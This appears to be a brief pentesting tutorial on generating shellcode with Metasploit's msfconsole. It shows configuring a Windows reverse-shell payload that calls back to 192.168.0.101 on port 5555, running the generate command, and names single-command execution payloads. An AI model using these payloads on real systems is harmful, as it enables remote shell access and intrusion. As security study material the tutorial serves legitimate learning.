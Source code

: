 # Generate shellcode

An easy way to generate shellcode is by using msfvenom or msconsole. I mostly see people recommending msfvenom online, but I think msfconsole can be a bit easier to work with. 

## Msfconsole

In msfconsole you have the keyword **generate** that help us generate shellcode. So first we have to select a payload.

```
use payload/windows/shell_reverse_tcp
```

Now we set the variables as usual

```
set LPORT 5555
set LHOST 192.168.0.101
```

now we genereate the shellcode using the command **generate**.

To see the options use **generate -h**

## Single commands in windows

If you don't have space and only want to execute a single command you can use

```
use payload/windows/exec

use payload/cmd/windows/generic
```



